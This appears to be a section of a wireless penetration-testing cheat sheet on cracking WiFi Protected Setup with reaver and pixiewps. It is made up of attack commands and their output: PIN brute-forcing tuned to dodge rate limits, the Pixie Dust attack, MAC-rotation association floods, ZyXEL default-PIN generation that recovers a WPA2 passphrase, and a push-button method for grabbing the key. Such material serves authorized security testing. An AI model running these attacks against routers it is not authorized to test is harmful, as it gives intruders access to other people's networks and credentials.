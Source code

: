 #### 3.1. Reaver repos
```
github.com/t6x/reaver-wps-fork-t6x (reaver with wash and default pin generators / PixieWPS)
github.com/gabrielrcouto/reaver-wps (reaver with mac changer)
github.com/wiire-a/pixiewps (offline PixieWPS cracking tool)
```


#### 3.2. Basic usage

Example 1:
```
# iface='wlan0' # monitor mode
# bssid='DE:AD:BE:EF:00:01'
# ch=11
# reaver -i $iface -b $bssid -c $ch -p 12345670
# reaver -i $iface -b $bssid -c $ch -r 1:330 --lock-delay=300 -vvv
```
Notes:
- attempt 1 PIN at 300s with lock delay of another 300s
- remember to add more seconds on a case to case basis
- constraints: `[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking`

Example 2:
```
# reaver -i $iface -c $ch -b $bssid -vv -L -N -d 15 -T .5 -r 3:15
```


#### 3.3. PixieWPS attack
```
# reaver -i wlan0 -b <BSSID> -c 5 --pixie-dust  -vv
Reaver v1.6.4-git-21-g9bae55b WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
...
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e [CUT] -s [CUT] -z [CUT] -a [CUT] -n [CUT] -r [CUT]
Pixiewps 1.2
...
```


#### 3.4. Reaver attack with MAC address changer

1) Configure tool
```
# git clone https://github.com/gabrielrcouto/reaver-wps && cd reaver-wps/src && ./configure && make
```

2) Associate
```
# killall aireplay-ng
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# station='ZZ:ZZ:ZZ:ZZ:ZZ:Z'  # your WLAN MAC w/o the last character
# for i in {0..9}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
# for i in {A..F}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
```

3) Run attack
```
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# ./reaver -i wlan0 -c 5 -b $bssid --mac-changer --no-nacks --win7 --no-associate -vv
```



#### 3.5. Reaver with ZyXEL default PIN generator

Info: `http://www.zyxel.com/support/announcement_wps_brute_force_attack.shtml`
Prerequisites: 
```
# git clone https://github.com/t6x/reaver-wps-fork-t6x && cd reaver-wps-fork-t6x
# git checkout master-old && cd src && ./configure && make
```

1) WPS PIN generator for ZyXEL
```
# bash wpsscan.sh | grep -i zyxel
DE:AD:BE:EF:99:99     2       -62   1.0          No          ZyXEL_9999
# reaver 2>&1 | grep -i zyxel
	-W, --generate-pin              Default Pin Generator [1] Belkin [2] D-Link [3] Zyxel
```

2) Generate PIN
```
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --generate-pin 3 --dh-small --lock-delay=300
[--- SNIP ---]
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[P] WPS Model Number: RT2860
[P] Access Point Serial Number: 12345678
...
[Pin Gen] Pin Generated : 30876927
[Pin Gen] Pin Generated (+1): 30876934
[Pin Gen] Pin Generated (-1): 30876910
```

3) Use default PIN to get WPA2 password
```
# reaver 2>&1 | grep -i 'use .* pin'
	-p, --pin=<wps pin>             Use the specified 4 or 8 digit WPS pin 
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --pin 30876927
...
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[+] WPS PIN: '30876927'
[+] WPA PSK: '4AYYM4XXXXXXX'
[+] AP SSID: 'ZyXEL_9999'
```


#### 3.6. WPS push button method (social)

Prerequisites:
- access to the administrative web interface (*WPS Add Client*)
- physical access to the router to push the WPS button (no WPA2 credentials on the label)

1) WPA supplicant config
```
cat << EOF > /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1
EOF
```

2) Run `wpa_supplicant`
```
# killall wpa_supplicant 2>/dev/null && killall dhclient 2>/dev/null
# wpa_supplicant -c /tmp/PBC.conf -i wlan0
...
wlan0: WPA: Key negotiation completed with 40:65:a3:eb:50:76 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 40:65:a3:eb:50:76 completed [id=0 id_str=]
```

3) Initiate WPS-PBC connection
```
# wpa_cli -i wlan0 wps_pbc any
OK
```

4) Grab the WPA2 key
```
# cat /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1

network={
    ssid="DeadBeef"
    psk="DeadBeefPSK-LOL#1#"
    proto=RSN
    key_mgmt=WPA-PSK
    pairwise=CCMP
    auth_alg=OPEN
}
```
